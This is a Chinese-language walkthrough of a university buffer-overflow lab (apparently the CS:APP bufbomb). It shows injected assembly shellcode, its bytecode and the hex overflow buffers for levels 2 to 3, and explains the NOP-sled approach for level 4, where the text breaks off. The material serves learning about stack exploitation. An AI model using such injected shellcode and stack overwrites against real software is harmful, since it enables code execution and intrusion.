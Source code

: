 ```
08 50 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 b8 31 68 55
```
PASS

### level 3
根据官方文档，把cookie作为返回值，跳转回test中原本要返回的位置，使用level 2一样的方法  
官方文档也有提示：复原寄存器中的内容，这里指的是%ebp，使用gdb查看它的值为0x55683210，就在相应位置填充此值即可  
攻击代码：
```
mov    $0x8048dbe,%eax  # test中原本要返回的位置
push   %eax
mov    $0x3bb88bc7,%eax
ret
```
字节码：
```
00000000 <.text>:
   0:	b8 be 8d 04 08       	mov    $0x8048dbe,%eax
   5:	50                   	push   %eax
   6:	b8 c7 8b b8 3b       	mov    $0x3bb88bc7,%eax
   b:	c3                   	ret 
```
buf：
```
b8 be 8d 04 08 50 b8 c7
8b b8 3b c3 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
10 32 68 55 b8 31 68 55
```
PASS

### level 4
目标还是复原ebp（因为我们在注入攻击代码的时候会污染栈上的ebp），跳回原本getbufn返回的位置，返回值为cookie。此时buf为520 bytes，顶上还有一个ebp。此时每次循环中栈的位置都会有些许的改变，而且ebp的值也不是固定的了    
> 空操作雪橇  
> 在实际的攻击代码前插入很长一段的nop指令。只要攻击者能够猜中这段序列中的某个地址，程序就会通过这个序列“滑”到攻击代码。

我们通过gdb发现，5次循环中，%ebp（要复原的）和%esp（调用Gets之前的）的值为：
| ebp       | esp        |
|-----------|------------|
|0x55683210 | 0x55682fc8 |
|0x55683240 | 0x55682ff8 | 
|0x55683220 | 0x55682fd8 | 
|0x556831c0 | 0x55682f78 | 
|0x556831c0 | 0x55682f78 |
